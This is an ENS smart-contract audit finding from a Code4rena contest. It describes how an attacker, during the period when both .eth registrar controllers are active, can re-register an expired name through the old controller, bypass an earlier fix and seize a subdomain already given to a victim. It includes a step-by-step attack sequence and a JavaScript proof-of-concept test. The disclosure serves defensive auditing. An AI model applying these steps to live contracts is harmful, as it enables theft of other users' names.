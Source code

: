 ## Tags

- bug
- 3 (High Risk)
- selected for report
- sponsor confirmed
- H-02

# [[ZZ-004] During the deprecation period where both .eth registrar controllers are active, a crafted hack can be launched and cause the same malicious consequences of [ZZ-001] even if [ZZ-001] is properly fixed](https://github.com/code-423n4/2022-11-ens-findings/issues/16) 

+ Severity: High
+ Status: Has not been reported

### Description,

Specifically, according to the [documentation](https://github.com/ensdomains/ens-contracts/tree/master/contracts/wrapper#register-wrapped-names), there will be a deprecation period that two types of .eth registrar controllers are active.

> Names can be registered as normal using the current .eth registrar controller. However, the new .eth registrar controller will be a controller on the NameWrapper, and have NameWrapper will be a controller on the .eth base registrar.

> Both .eth registrar controllers will be active during a deprecation period, giving time for front-end clients to switch their code to point at the new and improved .eth registrar controller.

The current .eth registrar controller can directly register ETH2LD and send to the user, while the new one will automatically wrap the registered ETH2LD.

If the two .eth registrar controllers are both active, an ETH2LD node can be __implicitly__ unwrapped while the NameWrapper owner remains to be the hacker.

__Note that this hack can easily bypass the patch of [ZZ-001].__

Considering the following situtation.

+ the hacker registered and wrapped an ETH2LD node `sub1.eth`, with `PARENT_CANNOT_CONTROL | CANNOT_UNWRAP` burnt. The ETH2LD will be expired shortly and can be re-registred within the aformentioned deprecation period.

+ after `sub1.eth` is expired, the hacker uses the current .eth registrar controller to register `sub1.eth` to himself.
    - _at this step, the `sub1.eth` is implicitly unwrapped_.
    - the hacker owns the registrar ERC721 as well as the one of ENS registry for `sub1.eth`.
    - however, `sub1.eth` in NameWrapper remains valid.
    
+ he sets `EnsRegistry.owner` of `sub1.eth` as NameWrapper. 
    - note that __this is to bypass the proposed patch for [ZZ-001].__
    
+ he wraps `sub2.sub1.eth` with `PARENT_CANNOT_CONTROL | CANNOT_UNWRAP` and trafers it to a victim user.

+ he uses `BaseRegistrar::reclaim` to become the `EnsRegistry.owner` of `sub1.eth`
    - at this step, the hack can be launched as __[ZZ-001]__ does.
 
For example, 

+ he can first invokes `EnsRegistry::setSubnodeOwner` to become the owner of `sub2.sub1.eth`

+ he then invokes `NameWrapper::wrap` to wrap `sub2.sub1.eth` to re-claim as the owner.

__Note that it does not mean the impact of the above hack is limited in the deprecation period__. 

What the hacker needs to do is to re-registers `sub1.eth` via the old .eth registrar controller (in the deprecation period). He can then launch the attack any time he wants.

### PoC

```js
    it('Attack happens within the deprecation period where both .eth registrar controllers are active', async () => {
      await NameWrapper.registerAndWrapETH2LD(
        label1,
        hacker,
        1 * DAY,
        EMPTY_ADDRESS,
        CANNOT_UNWRAP
      )

      // wait the ETH2LD expired and re-register to the hacker himself
      await evm.advanceTime(GRACE_PERIOD + 1 * DAY + 1)
      await evm.mine()

      // XXX: note that at this step, the hackler should use the current .eth
      // registrar to directly register `sub1.eth` to himself, without wrapping
      // the name.
      await BaseRegistrar.register(labelHash1, hacker, 10 * DAY)
      expect(await EnsRegistry.owner(wrappedTokenId1)).to.equal(hacker)
      expect(await BaseRegistrar.ownerOf(labelHash1)).to.equal(hacker)

      // set `EnsRegistry.owner` as NameWrapper. Note that this step is used to
      // bypass the newly-introduced checks for [ZZ-001]
      //
      // XXX: corrently, `sub1.eth` becomes a normal node
      await EnsRegistryH.setOwner(wrappedTokenId1, NameWrapper.address)

      // create `sub2.sub1.eth` to the victim user with `PARENT_CANNOT_CONTROL`
      // burnt.
      await NameWrapperH.setSubnodeOwner(
        wrappedTokenId1,
        label2,
        account2,
        PARENT_CANNOT_CONTROL | CANNOT_UNWRAP,
        MAX_EXPIRY
      )
      expect(await NameWrapper.ownerOf(wrappedTokenId2)).to.equal(account2)

      // XXX: reclaim the `EnsRegistry.owner` of `sub1.eth` as the hacker
      await BaseRegistrarH.reclaim(labelHash1, hacker)
      expect(await EnsRegistry.owner(wrappedTokenId1)).to.equal(hacker)
      expect(await BaseRegistrar.ownerOf(labelHash1)).to.equal(hacker)

      // reset the `EnsRegistry.owner` of `sub2.sub1.eth` as the hacker
      await EnsRegistryH.setSubnodeOwner(wrappedTokenId1, labelHash2, hacker)
      expect(await EnsRegistry.owner(wrappedTokenId2)).to.equal(hacker)

      // wrap `sub2.sub1.eth` to re-claim as the owner
      await EnsRegistryH.setApprovalForAll(NameWrapper.address, true)
      await NameWrapperH.wrap(encodeName('sub2.sub1.eth'), hacker, EMPTY_ADDRESS)
      expect(await NameWrapper.ownerOf(wrappedTokenId2)).to.equal(hacker)
    })
```

### Patch

May need to discuss with ENS team. A naive patch is to check whther a given ETH2LD node is indeed wrapped every time we operate it. However, it is not gas-friendly.